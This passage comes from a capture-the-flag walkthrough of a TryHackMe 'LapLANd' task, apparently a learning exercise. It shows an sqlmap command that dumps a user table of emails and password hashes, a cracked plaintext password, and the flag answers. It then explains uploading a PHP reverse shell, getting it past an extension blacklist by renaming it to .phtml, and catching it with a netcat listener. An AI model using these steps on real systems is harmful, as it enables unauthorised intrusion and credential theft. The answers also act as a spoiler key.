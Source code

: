 When this command run they show us all the columns in mentioned tables and database like following

![Task28_SQLi_Columns](https://user-images.githubusercontent.com/85181215/136405361-cbd4dc26-0458-4d13-b95c-51b9fab3c455.png)


There we see all the columns in the table so now we can dump all the data in that columns using the following command 

```
$ sqlmap -u 'http://10.10.139.141/register.php' --dbms="MySQL" -D "social" -T "users" --dump --batch --forms
```
There 
- `--dump` is use to specify dump all the data in the mentioned table
When this command run they show us every data in the table like the following

![Task28_SQLi_Columns_Data](https://user-images.githubusercontent.com/85181215/136405411-70dc9ed9-2abe-40ce-8ec6-7f363d2035fd.png)


There we all the columns that we enumerate previously but now we also got its content and there we see all users email,Name,usernames and password hash etc   

Q3: What is Santa Claus' plaintext password?
**Hint: It's in rockyou.txt - also try online sites such as HashKiller or Crackstation**

A: saltnpepper

**Solution**

Copy Santa Claus password hash and use any password cracking tool like `hashcat` or `john` etc to crack it or you can also use online site `crackstation`
to crack that hash 

Q4: Santa has a secret! Which station is he meeting Mrs Mistletoe in?
**Hint: Look at the private messages between users, either through the database or logging in as Santa!**

A: Waterloo

**Solution**

Now you got Santa Claus email and password from previous task so now you can use that to login to Santa account in `Lapland`.After login go to message section to see Santa private messages to get the answer

Q5: Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/
**Hint: If you're getting an error about a file format being blacklisted, try looking up alternative file extensions that will still execute.**

A: THM{SHELLS_IN_MY_EGGNOG}

**Solution**

Now you have Santa account so you can upload a PHP reverse shell in Post section first download the PHP reverse shell from the  [  pentestmonkey/php-reverse-shell - GitHub](https://github.com/pentestmonkey/php-reverse-shell) and edit your system IP Address and Port number you want to get reverse shell back and save it and try to upload that as a Santa Post.They are not uploaded because they use some blacklist to block `php` extension so you can rename that `php` reverse shell and change its extension with `phtml` and try to upload it and they work so now start a listener on your system with the port you set in reverse shell with the following command
```sh
$ nc -lvnp 4444
```
After that reload that the page or right click to your `php reverse shell` post and click on reload image and  after you will get the reverse shell back to your listener if not use different extension like `phps,php7` etc
